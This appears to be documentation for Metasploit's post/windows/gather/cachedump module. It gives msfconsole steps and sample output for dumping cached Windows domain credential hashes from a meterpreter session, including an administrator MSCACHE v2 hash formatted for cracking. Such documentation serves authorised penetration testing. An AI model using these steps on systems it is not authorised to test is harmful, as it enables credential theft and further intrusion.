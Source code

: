 ## Vulnerable Application

This module uses the registry to extract the stored domain hashes that have been cached as a result of a GPO setting. The default setting on Windows is to store the last ten successful logins.

## Verification Steps
  1. Start msfconsole
  2. Get meterpreter session
  3. Do: ```use post/windows/gather/cachedump```
  4. Do: ```set SESSION <session id>```
  5. Do: ```run```

## Options

### SESSION

  The session to run this module on.


## Scenarios

### Windows 7 (6.1 Build 7601, Service Pack 1).

  ```
  [*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.6:49184) at 2019-12-11 12:51:59 -0700

  msf > use post/windows/gather/cachedump
  msf post(windows/gather/cachedump) > set SESSION 1
    SESSION => 1
  msf post(windows/gather/cachedump) > run

    [*] Executing module against TEST-PC
    [*] Cached Credentials Setting: 10 - (Max is 50 and 0 disables, and 10 is default)
    [*] Obtaining boot key...
    [*] Obtaining Lsa key...
    [*] Vista or above system
    [*] Obtaining NL$KM...
    [*] Dumping cached credentials...
    [*] Hash are in MSCACHE_VISTA format. (mscash2)
    [+] MSCACHE v2 saved in: /root/.msf4/loot/20191211134214_default_192.168.1.6_mscache2.creds_626325.txt
    [*] John the Ripper format:
    # mscash2
    administrator:$DCC2$10240#administrator#89f253291a4b53a41c94057d644cbd1d::

    [*] Post module execution completed
  ```
